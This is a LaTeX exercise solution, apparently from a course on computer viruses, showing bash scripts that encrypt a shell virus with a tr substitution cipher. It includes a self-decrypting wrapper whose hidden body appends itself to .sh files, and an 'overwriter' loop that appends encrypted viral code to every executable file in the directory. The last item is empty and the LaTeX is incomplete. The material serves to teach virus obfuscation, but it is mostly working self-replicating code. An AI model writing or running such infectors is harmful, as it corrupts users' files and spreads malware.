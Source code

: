 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\begin{document}
\begin{correction}
\begin{enumerate}
\item 
We perform substitutions using the tr command: the short script below performs a substitution of the file \texttt{\$1} encoded in \texttt{tab1}
\begin{verbatim}
tab0="abcdefghijklmnopqrstuvwxyz"
tab1="hijabcdefgmnopqrstuvwxyzkl"

#cat $1 | tr  ["$tab1"] ["$tab0"] > fichier-$$.txt
cat $1 | tr  ["$tab0"] ["$tab1"] > fichier-$$.txt
\end{verbatim}

\item  We apply this technique to improve the \texttt{vbashp.sh} virus encrypted by substitution, prepending it with a restoration code.
\begin{verbatim}
#!/bin/bash

tab0="abcdefghijklmnopqrstuvwxyz"
tab1="hijabcdefgmnopqrstuvwxyzkl"

tail -n 11  $0 | tr  ["$tab1"] ["$tab0"] > fichier-$$.sh
#cat $1 | tr  ["$tab0"] ["$tab1"] > fichier-$$.txt
chmod u+x fichier-$$.sh
#./fichier-$$.sh # uncomment this part to enable replication
exit 0

#!/ifp/ihue

bjeq "jqab eqvb"

cqt f fp *.ue;
aq # rqwt vqwu nbu cfjefbtu hxbj n'bzvbpufqp ue
fc vbuv  "./$f" != "$0"; 
   vebp # uf jfinb != cfjefbt fpcbjvhpv bp jqwtu 
   vhfn -p 9 $0  >> $f; # hgqwv jqab aw xftwu 
cf
aqpb
\end{verbatim}
\item The following code answers the question

\begin{verbatim}
#!/bin/bash

tab0="abcdefghijklmnopqrstuvwxyz"
tab1="haigbcevrfwnyopjmqdstuxzkl"

#Overwritter I
for file in *; do #for every file
    if [ -x $file -a "$0" != "./$file" -a "$name" != "./$file" ]; then
	echo "infecting $file by adding encrypted viral code"
        #We add the encrypted viral part
	tail -n 11  $0 | tr  ["$tab1"] ["$tab0"] >> $file
    fi
done
\end{verbatim}


\item The code is given below: there is a restoration part that decrypts the viral code into a temporary file, first adding the name of the infecting script along with the encryption/decryption substitution. 
\begin{verbatim}
#!/bin/bash


\end{verbatim}
\end{enumerate}
\end{correction}
\end{document}
